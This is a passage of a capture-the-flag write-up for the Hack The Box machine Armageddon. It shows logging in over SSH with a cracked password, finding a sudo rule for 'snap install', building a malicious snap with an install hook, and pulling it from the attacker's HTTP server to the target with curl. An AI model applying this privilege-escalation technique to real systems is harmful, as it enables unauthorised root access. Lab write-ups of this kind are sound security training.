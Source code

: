 The password is `booboo`. We can use this to login to the SSH server.
```bash
└──╼ $ssh brucetherealadmin@10.10.10.233
brucetherealadmin@10.10.10.233's password: 
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ ls
user.txt
[brucetherealadmin@armageddon ~]$
```

We're in! Lets attempt to elevate to root with `sudo -l`.
```bash
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

A Google search on [gtfobins](https://gtfobins.github.io/gtfobins/snap/) shows that we escalate to root by creating our own malicious snap package.

In order to create a snap package, it looks like we need to download and install `fpm`. This can be done with `sudo gem install fpm`. Make sure have you Ruby installed.

Created the package.
```bash
└──╼ $COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n id -s dir -t snap -a all meta
Created package {:path=>"id_1.0_all.snap"}
┌─[nath@parrot]─[/tmp/tmp.ORa8QgMMJB]
└──╼ $ls
id_1.0_all.snap  meta
┌─[nath@parrot]─[/tmp/tmp.ORa8QgMMJB]
└──╼ $python3 -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
```

Now I upload it to the victm machine.
Since wget is not installed on tha target machine, I had to use curl instead.
```bash
curl http://10.10.16.2:9001/id_1.0_all.snap -o id_1.0_all.snap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4096  100  4096    0     0   3756      0  0:00:01  0:00:01 --:--:--  3764
```
